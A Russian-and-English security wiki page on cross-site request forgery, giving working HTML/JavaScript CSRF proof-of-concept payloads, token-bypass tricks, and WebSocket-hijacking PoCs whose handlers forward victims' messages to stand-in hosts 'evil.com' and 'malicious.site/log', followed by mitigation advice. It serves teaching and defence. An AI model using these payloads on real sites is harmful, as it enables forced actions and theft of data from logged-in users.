

# CSRF

## Description

Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated.

Необходимые условия возникновения CSRF атаки (если этого нет, можно даже не тестировать эту уязвимость):

* Интересное действие для CSRF атаки
* Cookie based сессия (или токены/сертификаты, которые доставляются приложением автоматически)
* Никаких параметров в запросе, которые нельзя предугадать

## Attack Examples

### Общий

Пример кейса с атакой CSRF: есть сайт с возможностью добавления почты. делаем запрос на добавление почты с другого сайта -> CSRF (токен может быть встроен в страницу, но не проверяться на стороне сервера)

Пример нагрузки:

```markup
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://vulnarable-site.com/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test@email.com" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>

```

Другой пример из задания с [PortSwigger Web Academy](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)

```markup
<!DOCTYPE html>
<html>
    <head>
        <title>CSRF Exploit via form</title>
    </head>
    <body>
        <div>Test</div>
        <!-- Inject csrfKey Header -->
        
        <!-- Submit Form -->
        <form method="POST" action="https://server.net/change-email">
            <input type="hidden" name="email" value="carlos@carlos-montoya.net">
            <input type="hidden" name="csrf" value="vYD0yIuvFYpOnh54szpuhVWA2IFqqnAJ">
        </form>
    </body>
</html>
```

или CSRF Exploit via fetch mechanism

```markup
<!DOCTYPE html>
<html>
    <head>
        <title>CSRF Exploit via js/fetch</title>
    </head>
    <body>
        <div>Test</div>
        <script>
            let data = {
                email: 'carlos-was-here@normal-users.net',
                csrf: 'G3dL0Wq0QSDmZyFTIgcGODJywPgVKR8v'
            };
            fetch("https://server.net/change-email", {
                method: 'POST',
                mode: 'no-cors',
                cache: 'no-cache',
                body: new URLSearchParams(data),
                credentials: 'include',
                headers: {
                    Cookie: 'csrfKey=4dX2Yco3WYR1gnSouSIoMsRP4AZSuFmr;',
                    'Content-Type': 'application/x-www-form-urlencoded'
                },
                redirect: 'follow'
            });
        </script>

    </body>
</html>
```

### XS-Search

Это Side-Channel атака для получения доступа к информации, к которой другие пользователи имеют доступ, а атакующий не имеет

Необходимо:&#x20;

* CSRF
* Возможность предугадывать, есть ли контент или нет

Подробно и примеры:\
[https://book.hacktricks.xyz/pentesting-web/xs-search](https://book.hacktricks.xyz/pentesting-web/xs-search)\
[https://terjanq.github.io/Bug-Bounty/Google/cache-attack-06jd2d2mz2r0/index.html](https://terjanq.github.io/Bug-Bounty/Google/cache-attack-06jd2d2mz2r0/index.html)

### Mistakes

* Проверка CSRF-токена зависит от типа HTTP-запроса

Проверка CSRF-токен может быть включена для POST/PUT-запросов, но выключена для GET-запроса. Можно попробовать все параметры перегнать в GET-параметры и сделать такой запрос.

* Delete CSRF-token

Можем попробовать просто убрать токен из запроса.

* CSRF-токен не привязан к сессии

Можем подставить csrf-токен из другой сессии. А у приложения общий пул CSRF-токенов.


### Cross-Site WebSocket Hijacking

Суть в общем та же: пользователь заходит на нашу страницу, мы пробуем от его лица сделать запрос на открытие вебсокета. PoC:

```markup
<html>
    <body>
        <script src="jquery.min.js"></script>
        <script>
            // open
            var ws = new WebSocket("http://example.com", "chat");
            
            // send
            ws.send("Attacker's message");
            
            // receive
            ws.onmessage = function(event) {
                $.post("evil.com", event.data);
            }
        </script>
    </body>
</html>
```

Запрос будет выглядеть примерно так:

```
 GET /chat HTTP/1.1
 Host: example.com
 Upgrade: websocket
 Connection: Upgrade
 Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
 Origin: http://malicious-site.com
 Sec-WebSocket-Protocol: chat
 Sec-WebSocket-Version: 13
 Cookie: session_id=victim_uuid	
```

Или отправка через Fetch API, а не через jquery:

```markup
<html>
    <head>test</head>
    <body>
        <script>

            function send(message) {
                let params = {
                    message
                };

                let sp = new URLSearchParams(params);

                fetch("https://malicious.site/log?" + sp.toString(), {method: 'GET'})
                    .then(response => response.text())
                    .then(text => console.log(text));
            }
            

            let socket = new WebSocket("wss://vulnerable.site/chat");
            
            socket.onopen = function(e) {
                // Connected
                socket.send("READY");
            };

            socket.onmessage = function(event) {
                send(event.data);
            };
        </script>
    </body>
</html>
```

Mitigations:

* Если для аутентификации используются куки, проверить origin запроса и на его основании ответить — 101 или 403
* Если OAuth, с первым сообщением передать OAuth токен по WS для проверки аутентификации.

## CSRF Testing MindMap



## Mitigations

### Общие подходы

* From OWASP: [https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site\_Request\_Forgery\_Prevention\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site\_Request\_Forgery\_Prevention\_Cheat\_Sheet.html)
* Если есть встроенный механизм защиты CSRF — использовать его
* Использовать сложные запросы (не Simple Requests, а с Preflight Requests). Например через Content-Type: application/json + следить за CORS
* Выписка через API-ручку / это CSRF для SPA тк другие способы доставить CSRF в SPA сложны (считай их нет) (нужно быть уверенным в алгоритме)
* Время жизни токена — минуту или сутки?
* Если подставляем в верстку, можно попробовать сделать одноразовые токены с привязкой к действию. CSRF токены должны быть привязаны к пользователю
* Samesite: это решение, но ломает кросдоменное взаимодействие
* Если выбрали токены (OAuth, например), а не куки — от CSRF защищены

Best practices:

* Используйте CSRF-токены для модифицирующих запросов
* Не делайте модифицирующие GET-ручки
* Реализовывать проверку через Middleware, (@decorator на отдельные эндпоинты хуже, так как разработчик может забыть его повесить при добавлении нового эндпоинта)
* Для мобильного API не оставьте случайно Cookie Auth (иногда бывает так)

### Stateful Software

CSRF tokens should be:

* Unique per user session.
* Secret
* Unpredictable (large random value generated by a [secure method](https://cheatsheetseries.owasp.org/cheatsheets/Cryptographic\_Storage\_Cheat\_Sheet.html#rule---use-cryptographically-secure-pseudo-random-number-generators-csprng)).

Безопаснее передавать CSRF токены в заголовках запроса. Не рекомендуется передавать CSRF токены в query-параметрах (в GET запросах, в частности): токен может утечь разными путями — логи, история браузера.

### Stateless Software

Есть техника Double Submit Cookie.&#x20;

Клиент с каждым запросом шлет случайное значение в куках и то же значение в теле запроса (или в заголовках): на стороне сервера эти значения сверяются между собой. При первом посещении сайта, это случайное значение отдается клиенту без привязки к сессии. Можно добавлять шифрование этого токены в сессии или использовании HMAC.&#x20;

## Links & Papers

Подробнее о том как генерируется CSRF-токен и проверяется: [https://learn.javascript.ru/csrf](https://learn.javascript.ru/csrf).
